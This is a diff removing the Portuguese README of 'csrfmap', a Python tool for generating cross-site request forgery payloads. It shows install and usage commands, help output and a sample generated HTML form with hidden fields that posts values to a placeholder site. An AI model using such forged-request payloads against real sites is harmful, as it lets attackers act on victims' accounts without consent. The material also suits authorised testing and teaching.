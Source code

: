 ```diff
-
- - Gera payloads CSRF com foco em exploração de falsificação de requisições entre sites.
-
-# Forma de utilização
-
-```sh
-csrfmap -a "http://exemplo.com" -m post -t forminteraction -n username password token -v victor password 132423542
-```
-Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
-```yaml
- _____ _____ _____ _____ _____ _____ _____ 
-|     |   __| __  |   __|     |  _  |  _  |
-|   --|__   |    -|   __| | | |     |   __|
-|_____|_____|__|__|__|  |_|_|_|__|__|__|   
-                                                       
-                        v0.0.1 - @joaoviictorti 
-
-options:
-  -h, --help            show this help message and exit
-  -a ACTION, -A ACTION  Insert action
-  -m METHOD, -M METHOD  Insert method
-  -p {form1,form2,json1,json2}
-  -n NAME [NAME ...], -name NAME [NAME ...] Insert name
-  -v VALUE [VALUE ...], -value VALUE [VALUE ...] Insert values
-
-```
-
-# Instalação
-
-csrfmap requer **python3** e para baixá-lo só usar:
-
-```sh
-pip3 install csrfmap
-```
-
-# Executando csrfmap
-
-```console
-csrfmap -a "http://exemplo.com" -m post -p form1 -n username password token -v victor password 132423542
-
- _____ _____ _____ _____ _____ _____ _____ 
-|     |   __| __  |   __|     |  _  |  _  |
-|   --|__   |    -|   __| | | |     |   __|
-|_____|_____|__|__|__|  |_|_|_|__|__|__|   
-                                                       
-                        v0.0.1 - @joaoviictorti   
-
-csrf.html:
-<!DOCTYPE html>
-<html lang="pt-br">
-<body>
-	<form action="http://exemplo.com" method="post">
-	<input name="username" value="victor" type="hidden"/>
-	<input name="password" value="password" type="hidden"/>
-	<input name="token" value="132423542" type="hidden"/>
-	<input type="submit">Enviar</input>
-	</form>
-</body>
-</html>
-
-```
```